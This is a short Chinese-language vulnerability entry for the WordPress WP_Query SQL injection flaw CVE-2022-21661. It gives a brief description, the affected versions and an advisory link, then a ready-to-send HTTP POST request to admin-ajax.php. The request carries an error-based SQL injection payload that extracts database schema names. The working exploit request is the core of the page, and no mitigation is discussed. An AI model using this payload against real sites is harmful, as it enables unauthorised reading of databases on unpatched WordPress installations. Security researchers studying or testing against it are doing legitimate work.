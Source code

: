 # WordPress WP_Query SQL 注入漏洞 CVE-2022-21661

# WordPress WP_Query SQL 注入漏洞 CVE-2022-21661

## 漏洞描述

`WordPress`是一个用`PHP`编写的免费开源内容管理系统，由于`clean_query`函数的校验不当，导致了可能通过插件或主题以某种方式从而触发`SQL`注入的情况。这已经在`WordPress5.8.3`中进行了修复。影响版本可以追溯到`3.7.37`。

参考链接：

- https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-6676-cqfm-gw84

## 漏洞影响

```
WordPress < 5.8.3
```

## 漏洞POC

获取数据库名：

```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 130

action=test&data={"tax_query":[{"field":"term_taxonomy_id","terms":["1) and extractvalue(rand(),concat(0x5e,(select group_concat(schema_name) from information_schema.SCHEMATA)))#"]}]}
```

![image-20220623160952210](/images/202206231609284.png)

